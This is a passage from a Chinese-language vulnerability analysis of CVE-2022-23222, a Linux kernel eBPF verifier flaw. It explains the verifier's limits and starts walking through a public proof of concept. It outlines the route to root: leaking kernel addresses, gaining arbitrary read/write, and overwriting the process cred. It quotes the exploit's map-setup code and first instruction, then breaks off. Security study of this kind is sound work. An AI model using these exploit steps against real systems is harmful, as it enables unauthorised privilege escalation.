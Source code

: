 ### 3.6 eBPF verifier

eBPF 程序在加载进内核之前，必须通过 eBPF verifier 的检查。只有符合要求的 eBPF 程序才允许被加载进内核，这是为了防止 eBPF 程序对内核进行破坏。

eBPF verifier 对 eBPF 程序的限制包括：

- 不能调用任意的内核函数，只限于内核模块中列出的 eBPF helper 函数
- 不允许包含无法到达的指令，防止加载无效代码，延迟程序的终止。
- 限制循环次数，必须在有限次内结束。
- 栈大小被限制为 MAX_BPF_STACK，截止到内核 5.10.83 版本，被设置为 512。
- 限制 eBPF 程序的复杂度，verifier 处理的指令数不得超过 BPF_COMPLEXITY_LIMIT_INSNS，截止到内核 5.10.83 版本，被设置为100万。
- 限制 eBPF 程序对内存的访问，比如不得访问未初始化的栈，不得越界访问 eBPF map 。

## 四、POC分析

POC 地址为：[https://github.com/tr3ee/CVE-2022-23222](https://github.com/tr3ee/CVE-2022-23222)

漏洞整体利用思路是通过欺骗 eBPF verifier 泄露内核地址，并实现内核任意地址读、写原语，通过任意读原语搜索进程 cred 所在地址，通过任意写原语修改进程 cred 以实现提权。

### 4.1 前置准备

创建 2 个 eBPF map ，类型分别为 BPF_MAP_TYPE_ARRAY 及 BPF_MAP_TYPE_RINGBUF。

```c
ret = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(u32), PAGE_SIZE, 1);
if (ret < 0) {
WARNF("Failed to create comm map: %d (%s)", ret, strerror(-ret));
return ret;
}
ctx->comm_fd = ret;

if ((ret = bpf_create_map(BPF_MAP_TYPE_RINGBUF, 0, 0, PAGE_SIZE)) < 0) {
WARNF("Could not create ringbuf map: %d (%s)", ret, strerror(-ret));
return ret;
}
ctx->ringbuf_fd = ret;
```

前者在 POC 中的作用为：

1. 和内核交换数据。
2. 泄露其元素的地址。

后者的作用则为：

1. 和内核交换数据。
2. 通过 bpf_ringbuf_reserve 辅助函数获取 PTR_TO_MEM_OR_NULL 类型指针 。

### 4.2 泄露内核地址

泄露内核地址的方法为构造特定的 eBFP 程序以利用前述漏洞。

先将 r1 保存到 r9 。r1 在进入 eBPF 程序之前被内核初始化为指向 skb 的指针。

```C
// r9 = r1
BPF_MOV64_REG(BPF_REG_9, BPF_REG_1)
```
